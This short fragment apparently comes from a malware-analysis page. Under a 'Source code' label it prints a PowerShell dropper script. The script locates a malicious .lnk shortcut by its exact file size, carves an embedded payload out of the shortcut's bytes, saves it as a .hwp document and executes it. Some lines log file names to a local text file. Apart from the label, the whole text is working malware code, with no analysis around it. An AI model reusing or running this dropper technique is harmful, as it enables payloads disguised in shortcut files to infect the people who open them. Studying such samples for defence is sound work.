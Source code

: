 $lk=ls -Path '.\' -filter '*.lnk';
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$lk=$lk[$a].name;break}}
ac -path "C:\Users\user\Downloads\1.txt" $lk
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2 | Where {$_.length -eq 56397}};
$n=$lk.Replace('.lnk','.hwp');
ac -path "C:\Users\user\Downloads\1.txt" $n
$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];
ac -path "C:\Users\user\Downloads\1.txt" $lk
$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);
&$fsdf;













